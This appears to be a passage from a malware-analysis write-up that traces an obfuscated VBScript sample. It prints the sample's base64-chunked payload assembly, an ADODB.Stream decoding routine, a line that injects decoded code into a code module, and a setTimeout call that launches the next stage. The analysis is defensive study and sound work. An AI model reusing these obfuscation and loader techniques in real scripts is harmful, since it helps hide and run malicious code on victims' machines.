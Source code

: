 In this function above, a new object is created with the COM CLSID ["2933BF90-7B36-11D2-B20E-00C04F983E60"](https://strontic.github.io/xcyclopedia/library/clsid_2933BF90-7B36-11D2-B20E-00C04F983E60.html) this corresponds to an XML DOM document that is an [in-memory representation of an XML document](https://docs.microsoft.com/en-us/dotnet/standard/data/xml/xml-document-object-model-dom). The variable `strData` contains base64 encoded binary data. Let's trace this data backwards by looking for function calls to `findEnvironment`. We find three references, two in the original function definition, and one on line 1944 immediately after what looks like a gigantic block of base64 text.

```
gtypeCurrent=gtypeCurrent & "ICAgIG10eXBlRGVza3RvcCA9IGltcG9ydFByb2Nlc3MoZHRtU3RyaW5nLmd2bnRXaWRnZXN0LCBpbnRRdWFudGl0eSwgZ2N1ck5hbWUsICZIMjAsIGdsbmdSZWdpc3RyeSkKICAgIG10eXBlRGVza3RvcCA9IHJlc3RvcmVGb3VuZChkdG1TdHJpbmcuZ3ZudFdpZGdlc3QsIDAsIDAsIGludFF1YW50aXR5LCAwLCAwLCAw"
gtypeCurrent=gtypeCurrent & "KQpFbmQgU3ViCgpQcml2YXRlIEZ1bmN0aW9uIGNyZWF0ZURpY3Rpb25hcnkoQnlWYWwgZ29iamVjdENoZWNrc3VtIEFzIFN0cmluZykgQXMgQnl0ZSgpCiAgICBTZXQgZ3R5cGVSZWdpc3RyeSA9IEdldE9iamVjdCgibmV3Ok1pY3Jvc29mdC5YTUxET00iKQogICAgU2V0IG9iamVjdFJlZ2lzdHJ5ID0gZ3R5cGVSZWdp"
gtypeCurrent=gtypeCurrent & "c3RyeS5jcmVhdGVFbGVtZW50KCJzdHJEaWN0aW9uYXJ5IikKICAgIG9iamVjdFJlZ2lzdHJ5LkRhdGFUeXBlID0gImJpbi5iYXNlNjQiCiAgICBvYmplY3RSZWdpc3RyeS5UZXh0ID0gZ29iamVjdENoZWNrc3VtCiAgICBjcmVhdGVEaWN0aW9uYXJ5ID0gb2JqZWN0UmVnaXN0cnkuTm9kZVR5cGVkVmFsdWUKICAgIFNl"
gtypeCurrent=gtypeCurrent & "dCBvYmplY3RSZWdpc3RyeSA9IE5vdGhpbmcKICAgIFNldCBndHlwZVJlZ2lzdHJ5ID0gTm90aGluZwpFbmQgRnVuY3Rpb24K"
objPath.CodeModule.AddFromString initializeEnvironment(findEnvironment(gtypeCurrent))
findDrive
```

Before we take the giant blob of base64 and decode it - let's take a look at the `initializeEnvironment` function that seems to process the data. 

```
Function initializeEnvironment(Binary)
  Const mdtmFunction = 2
  Const gerrRasterdata = 1
  Dim typeFolder
  Set typeFolder = GetObject("new:00000566-0000-0010-8000-00AA006D2EA4")
  typeFolder.Type = gerrRasterdata
  typeFolder.Open
  typeFolder.Write Binary
  typeFolder.Position = 0
  typeFolder.Type = mdtmFunction
  typeFolder.CharSet = "us-ascii"
  initializeEnvironment = typeFolder.ReadText
End Function
```
This CLSID represents AODB.Stream, which is basically just [binary stream data](https://docs.microsoft.com/en-us/sql/ado/reference/ado-api/stream-object-ado?view=sql-server-ver15). So this function is reading in the text from the `gtypeCurrent` object. 

Once we've read the data, we need to execute it, right? Let's take a look at that final function in the block named `findDrive`. 

```
Sub findDrive
  msngEnvironment = window.setTimeout("joinName", 5000, "VBScript")
End Sub
```
So `findDrive` is simply executing another function named `joinName`. 
